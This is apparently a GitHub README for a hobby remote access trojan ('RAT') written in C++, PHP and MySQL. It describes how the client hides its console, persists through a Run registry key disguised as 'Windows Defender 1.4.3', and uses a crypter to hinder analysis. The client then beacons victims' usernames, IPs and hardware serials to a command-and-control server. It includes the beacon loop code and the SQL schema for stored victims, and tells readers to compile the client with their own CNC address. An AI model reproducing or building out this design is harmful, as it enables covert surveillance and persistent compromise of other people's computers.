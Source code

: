 # Rat Base
A basic base for a Remote. Access. Tool. written in native C++, PHP, and MySQL.

# Usage
This RAT is not like most others it sends a GET request with all its data split by `|` to a API.
This RAT is primarily made for recon as it doesn't provide any post-exploitation modules but that might be added in the feature as well as a frontend.
You should launch this server on a nginx or apache2 server with PHP installed.
Then compile the client with updated CNC IPv4, and Port.

# How does it work?
In the first line of the client it free's console so it's hidden (obviously)
then it creates registry values in `SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run` called `Windows Defender 1.4.3` to infect it to startup.
using RCrypter to make it very hard to debug and analyze on runtime-
It then creates a loop that is going to run forever (well not forever since it's uncertain but you know what I mean) where it then gets PC info and pushes it to db
```cpp
PCInfo* LocalPC;

while (true) {
	LocalPC = new PCInfo(); // Makes new instance of the computers info
	
	LocalPC->PushData(); // Pushes PC data to web-server

	Sleep(1000); // Waits 1 second
}
```

# Database Structure
The `rats` table has a few values for frontend like serialnumbers, `last_active`, ip, and pc username.
This is the `rats` SQL structure
```sql
CREATE TABLE `rat` (
  `id` int(11) NOT NULL,
  `pcname` varchar(50) NOT NULL,
  `username` varchar(50) NOT NULL,
  `ip` varchar(20) NOT NULL,
  `disk_serial` varchar(255) NOT NULL,
  `baseboard_serial` varchar(255) NOT NULL,
  `ram_serial` varchar(255) NOT NULL,
  `cpu` varchar(255) NOT NULL,
  `last_active` datetime DEFAULT current_timestamp(),
  `created_at` datetime DEFAULT current_timestamp()
);
```

# API
The API is quite simple it checks if the IP is already in any of the rows and if it is, API updates the row, if its not API inserts data into DB.


# Why?
This project was for me to see if i could make one with clean and code.

# Credits
In the API I used a function called get_ip() which was taken from @timothyikennedy

In client I used a function called DoGET() which was taken from a stackoverflow post (I don't remember or have link)

@Akex64: Creating the whole client except some functions and API

@skadro-official: skCrypter / RCrypter.h
 



